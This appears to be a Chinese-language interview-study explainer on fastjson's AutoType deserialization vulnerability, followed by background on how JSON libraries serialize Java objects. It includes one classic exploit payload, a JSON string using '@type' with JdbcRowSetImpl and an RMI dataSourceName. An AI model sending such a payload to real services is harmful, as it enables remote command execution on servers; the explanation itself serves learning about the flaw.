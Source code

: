 # ✅你知道fastjson的反序列化漏洞吗

# 典型回答


当我们使用fastjson进行序列化的时候，当一个类中包含了一个接口（或抽象类）的时候，会将子类型抹去，只保留接口（抽象类）的类型，使得反序列化时无法拿到原始类型。



那么为了解决这个问题，fastjson引入了AutoType，即在序列化的时候，把原始类型记录下来。



因为有了autoType功能，那么fastjson在对JSON字符串进行反序列化的时候，就会读取`@type`到内容，试图把JSON内容反序列化成这个对象，并且会调用这个类的setter方法。



那么这个特性就可能被利用，攻击者自己构造一个JSON字符串，并且使用`@type`指定一个自己想要使用的攻击类库实现攻击。



举个例子，黑客比较常用的攻击类库是`com.sun.rowset.JdbcRowSetImpl`，这是sun官方提供的一个类库，这个类的dataSourceName支持传入一个rmi的源，当解析这个uri的时候，就会支持rmi远程调用，去指定的rmi地址中去调用方法。



而fastjson在反序列化时会调用目标类的setter方法，那么如果黑客在JdbcRowSetImpl的dataSourceName中设置了一个想要执行的命令，那么就会导致很严重的后果。



如通过以下方式定一个JSON串，即可实现远程命令执行（在早期版本中，新版本中JdbcRowSetImpl已经被加了黑名单）



    `{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}`

    

**这就是所谓的远程命令执行漏洞，即利用漏洞入侵到目标服务器，通过服务器执行命令。**

# 扩展知识
### 
### AutoType 


fastjson的主要功能就是将Java Bean序列化成JSON字符串，这样得到字符串之后就可以通过数据库等方式进行持久化了。



但是，fastjson在序列化以及反序列化的过程中并没有使用Java自带的序列化机制，而是自定义了一套机制。



其实，对于JSON框架来说，想要把一个Java对象转换成字符串，可以有两种选择：



+ 1、基于属性
+ 2、基于setter/getter



而我们所常用的JSON序列化框架中，FastJson和jackson在把对象序列化成json字符串的时候，是通过遍历出该类中的所有getter方法进行的。Gson并不是这么做的，他是通过反射遍历该类中的所有属性，并把其值序列化成json。
